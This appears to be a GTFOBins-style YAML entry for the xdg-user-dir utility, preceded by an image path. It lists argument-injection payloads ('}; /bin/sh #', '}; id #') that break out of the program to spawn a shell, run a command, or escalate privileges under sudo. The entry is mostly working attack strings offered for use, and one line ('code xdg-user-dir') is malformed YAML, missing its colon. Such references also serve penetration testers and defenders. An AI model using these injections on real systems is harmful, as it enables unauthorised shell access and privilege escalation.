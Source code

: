 ```yaml
---
functions:
  shell:
    - code: xdg-user-dir '}; /bin/sh #'
  command:
    - code xdg-user-dir '}; id #'
  sudo:
    - code: sudo xdg-user-dir '}; /bin/sh #'
---
```

